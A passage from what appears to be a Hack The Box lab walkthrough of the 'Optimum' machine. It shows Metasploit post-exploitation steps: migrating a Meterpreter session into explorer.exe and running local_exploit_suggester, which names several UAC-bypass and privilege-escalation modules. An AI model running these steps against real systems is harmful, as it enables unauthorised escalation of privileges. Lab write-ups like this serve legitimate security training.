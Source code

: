 ```bash
<SNIP>

[*] Post module execution completed
```

It is a good practice to scan for both `x64` and `x86` processes, as some exploits can run only in one out of the two architectures. We can use `meterpreter` to migrate onto an `x64` process and run the `local_exploit_suggester` module again:

```bash
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                     Arch  Session  User            Path
 ---   ----  ----                     ----  -------  ----            ----
<SNIP>

664   1960  explorer.exe             x64   1        OPTIMUM\kostas  C:\Windows\explorer.exe

<SNIP>

meterpreter > migrate 664
[*] Migrating from 1828 to 664...
[*] Migration completed successfully.

meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x64/windows
```

We now have a `x64/windows` Meterpreter shell and we can check local exploits again:

```bash
meterpreter > bg
[*] Backgrounding session 1.

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x64/windows...
[*] 10.10.10.8 - 190 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/cve_2021_40449: The service is running, but could not be validated. Windows 8.1/Windows Server 2012 R2 build detected!
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.8 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 45 / 45
[*] 10.10.10.8 - Valid modules for session 1:
============================
```